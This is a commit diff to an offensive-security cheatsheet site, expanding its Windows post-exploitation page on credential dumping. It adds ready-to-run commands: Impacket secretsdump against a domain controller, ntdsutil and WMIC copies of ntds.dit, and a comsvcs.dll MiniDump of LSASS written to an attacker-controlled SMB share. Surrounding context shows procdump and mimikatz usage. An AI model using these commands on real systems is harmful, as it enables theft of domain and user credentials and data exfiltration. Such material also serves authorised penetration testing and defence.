

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Post_Exploitation.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update Post_Exploitation.md

````diff
--- a/docs/Windows/Post_Exploitation.md
+++ b/docs/Windows/Post_Exploitation.md
@@ -5,7 +5,25 @@
     ```
 
 ---
-## Dumping Credentials
+## Dumping Credentials[^1]
+
+### NTDS dumping
+
+#### Impacket-secretsdump directly
+```
+secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
+```
+
+#### ntdsutil[^2][^3]
+```
+ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
+# Via WMIC from a remote machine to DC
+wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"
+
+# Then copy to kali and use secretsdump
+secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
+```
+
 
 ### Procdump & Mimikatz
 
@@ -19,6 +37,11 @@ Useful if AV cannot be disabled and does not block procdump.exe
         ```
     * Via Task manager
         * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
+    * Remote LSASS dump[^4]
+        ```batch
+        net use x: \\smbserver_under_your_control\c$\
+        powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
+        ```
 
 1. Retrieve file
 
@@ -27,9 +50,7 @@ Useful if AV cannot be disabled and does not block procdump.exe
     mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
     ```
 
-
-### Impacket Secretsdump
-
+### Exporting registry hives & local decryption
 1. On target machine
     ```batch
     mkdir c:\temp
@@ -55,4 +76,8 @@ Useful if AV cannot be disabled and does not block procdump.exe
     ```
 
 
+
 [^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
+[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
+[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
+[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
````
